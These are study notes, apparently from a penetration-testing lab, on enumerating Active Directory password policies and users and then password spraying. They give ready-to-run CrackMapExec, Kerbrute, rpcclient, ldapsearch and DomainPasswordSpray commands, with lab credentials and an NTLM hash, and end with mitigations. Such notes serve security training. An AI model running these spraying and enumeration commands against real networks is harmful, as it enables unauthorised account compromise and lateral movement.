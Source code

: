 
## Enumerating & Retrieving Password Policies


- Enumerating password policy with CrackMapExec:
![[Pasted image 20221221220022.png]]

- Enumerating with rpcclient:
![[Pasted image 20221221220052.png]]

- Enumerating with enum4linux:
![[Pasted image 20221221220110.png]]

- LDAP Anonymous Bind (Enumerating from Linux):
	LDAP anonymous binds allow unauthenticated attackers to retrieve information from the domain, such as a complete listing of users, groups, computers, user account attributes, and the domain password policy. This is a legacy configuration, and as of Windows Server 2003, only authenticated users are permitted to initiate LDAP requests. We still see this configuration from time to time as an admin may have needed to set up a particular application to allow anonymous binds and given out more than the intended amount of access, thereby giving unauthenticated users access to all objects in AD.

Tools you can use:
	- windapsearch.py
	- ldapsearch
	- ad-ldapdomaindump.py

- Using ldapsearch
```
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```



- Using net.exe
![[Pasted image 20221221220150.png]]

- Using PowerView
![[Pasted image 20221221220226.png]]


## Password Spraying - Making a Target User List

Ways to gather a target list of valid users:
- By leveraging an SMB NULL session to retrieve a complete list of domain users from the domain controller

- Utilizing an LDAP anonymous bind to query LDAP anonymously and pull down the domain user list

- Using a tool such as Kerbrute to validate users utilizing a word list from a source such as the stastically-likely-usernames GitHub repo, or gathered by using a tool such as linkedin2username to create a list of potentially valid users

- Using a set of credentials from a Linux or Windows attack system either provided by our client or obtained through another means such as LLMNR/NBT-NS response poisoning using Responder or even a successful password spray using a smaller wordlist

Using enum4linux:
```
enum4linux -U 172.16.5.5 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

Using rpcclient:
```
rpcclient -U "" -N 172.16.5.5
```

```
rpcclient $> enumdomusers
```

Using crackmapexec:
```
crackmapexec smb 172.16.5.5 --users
```

Using ldapsearch:
```
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "
```

Using windapsearch.py:
```
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

Using Kerbrute:
```
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 <wordlist>
```

Building our User List
Using CrackMapExec with Valid Credentials:
```
sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```


## Internal Password Spraying


Using a Bash one-liner for the Attack:
```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

Using Kerbrute:
```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5
valid_users.txt Welcome1
```

Using CrackMapExec:
```

sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

Validating Credentials with CrackMapExec:
```
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```


- Local Admin Password Reuse
	Internal password spraying is not only possible with domain user accounts. If you obtain administrative access and the NTLM password hash or cleartext password for the local administrator account (or another privileged local account), this can be attempted across multiple hosts in the network. Local administrator account password reuse is widespread due to the use of gold images in automated deployments and the perceived ease of management by enforcing the same password across multiple hosts. CrackMapExec is a handy tool for attempting this attack. It is worth targeting high-value hosts such as SQL or Microsoft Exchange servers , as they are more likely to have a highly privileged user logged in or have their credentials persistent in memory.

Local Admin Spraying with CrackMapExec:
```
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H
88ad09182de639ccc6579eb0849751cf | grep +
```



From a foothold on a domain-joined Windows host, the DomainPasswordSpray tool is highly effective. If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.

Syntax:
```
Import-Module
.\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -
ErrorAction SilentlyContinue
```


## Mitigations

Multi-Factor Auth: Multi-factor authentication can greatly reduce the risk of password spraying attacks. Many types of multi-factor authentication exist, such as push notifications to a mobile device, a rotating One Time Password (OTP) such as Google Authenticator, RSA key, or text message confirmations. While this may prevent an attacker from gaining access to an account, certain multi-factor implementations still disclose if the username/password combination is valid. It may be possible to reuse this credential against other exposed services or applications. It is important to implement multi-factor solutions with all external portals.

Restricting Access: It is often possible to log into applications with any domain user account, even if the user does not need to access it as part of their role. In line with the principle of least privilege, access to the application should be restricted to those who require it.


Reducing Impact of Successful Exploitation: A quick win is to ensure that privileged users have a separate account for any administrative activities. Application-specific permission levels should also be implemented if possible. Network segmentation is also recommended because if an attacker is isolated to a compromised subnet, this may slow down or entirely stop lateral movement and further compromise.

Password Hygiene: Educating users on selecting difficult to guess passwords such as passphrases can significantly reduce the efficacy of a password spraying attack. Also, using a password filter to restrict common dictionary words, names of months and seasons, and variations on the company's name will make it quite difficult for an attacker to choose a valid password for spraying attempts.